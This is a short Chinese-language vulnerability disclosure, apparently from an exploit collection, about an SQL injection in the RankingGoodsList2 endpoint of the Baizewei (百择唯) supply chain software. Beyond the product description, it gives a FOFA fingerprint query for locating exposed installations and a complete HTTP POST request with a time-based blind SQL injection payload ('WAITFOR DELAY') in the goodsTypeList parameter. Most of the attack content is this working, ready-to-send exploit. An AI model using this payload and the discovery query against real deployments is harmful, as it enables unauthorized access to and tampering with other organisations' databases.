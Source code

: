 # 百择唯·供应链 RankingGoodsList2存在SQL注入漏洞

# 一、漏洞简介
懂微科技是一家专注于办公服务行业电商解决方案的提供商，致力于为办公服务行业赋能、提升效率和核心竞争力。百择唯·供应链作为懂微科技的重要产品之一，旨在通过数字化手段优化办公服务行业的供应链管理,提升采购效率，降低采购成本，增强企业的盈利能力。适用于各种需要优化供应链管理、提升采购效率的企业。同时，通过与合作伙伴的共享共建，构建完善的供应链生态体系，提升整体运营效率和市场竞争力。百择唯·供应链 RankingGoodsList2存在SQL注入漏洞

# 二、影响版本
+ 百择唯·供应链

# 三、资产测绘
+ fofa`body="/Content/Css/_SiteCss/"`
+ 特征

![1732022759477-c1a2bd70-04f5-44bd-bc33-ca5624510b7b.png](./img/jlgM_sWCTSTwqCWx/1732022759477-c1a2bd70-04f5-44bd-bc33-ca5624510b7b-956370.png)

# 四、漏洞复现
```java
POST /Goods/RankingGoodsList2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
 
goodsSortType=Recommend&goodsTypeList%5B%5D=1%';WAITFOR DELAY '0:0:5'--
```

![1732022907643-8a0884e7-7a63-4742-ac74-576dd5c7e13c.png](./img/jlgM_sWCTSTwqCWx/1732022907643-8a0884e7-7a63-4742-ac74-576dd5c7e13c-370161.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gqpnlboq0dt6c1f1>